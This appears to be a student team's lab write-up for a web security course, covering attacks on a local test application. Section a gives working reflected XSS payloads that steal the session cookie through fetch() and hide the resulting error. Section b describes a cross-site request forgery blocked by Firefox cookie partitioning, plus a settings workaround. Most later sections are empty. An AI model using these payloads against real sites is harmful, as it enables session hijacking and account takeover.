

# Project 1

## Team members

- PRO
- zzh

## Procedure

### a

1. Test HTML injection via: `http://localhost:3000/profile?username=<script>alert(1);</script>`, which works.
2. Try `http://localhost:3000/profile?username=hack<script>location.href="/steal_cookie?session_cookie="+document.cookie</script>`, but `+` got interpreted as space.
3. Simple fix: ```http://localhost:3000/profile?username=hack<script>location.href=`/steal_cookie?session_cookie=${document.cookie}`</script>```, but the redirect would be visible to user.
4. Using `fetch`: ```http://localhost:3000/profile?username=hack<script>fetch(`/steal_cookie?session_cookie=${document.cookie}`);</script>```
5. Fixing `User does not exist`: ```http://localhost:3000/profile?username=<script>fetch(`/steal_cookie?session_cookie=${document.cookie}`);document.querySelector("p.error").remove();</script>```

### b

Having tried `<form>`, `XMLHttpRequest` and `fetch`, but all of them refused to send cookies: `Partitioned cookie or storage access was provided to “http://localhost:3000/post_transfer” because it is loaded in the third-party context and dynamic state partitioning is enabled.`. The root cause is that, on firefox:

> A request to access cookies or storage was partitioned because it came from a third-party (a different origin) and dynamic state partitioning is enabled.

Our request does not come from `localhost:3000`, so firefox refuses to send it with cookie.

**Solution**: Change [firefox settings](about:preferences#privacy) according to the image.


After changing the settings and re-visiting our HTML, the attack shall succeed:



### c

### d

### e

### f

### g


## References

- Detailed guide on how to install docker: https://lindevs.com/install-docker-ce-on-ubuntu/
- https://stackoverflow.com/questions/168455/how-do-you-post-to-an-iframe
- https://developer.mozilla.org/en-US/docs/Web/Privacy/Storage_access_policy/Errors/CookiePartitionedForeign
- https://stackoverflow.com/questions/35325370/how-do-i-post-a-x-www-form-urlencoded-request-using-fetch
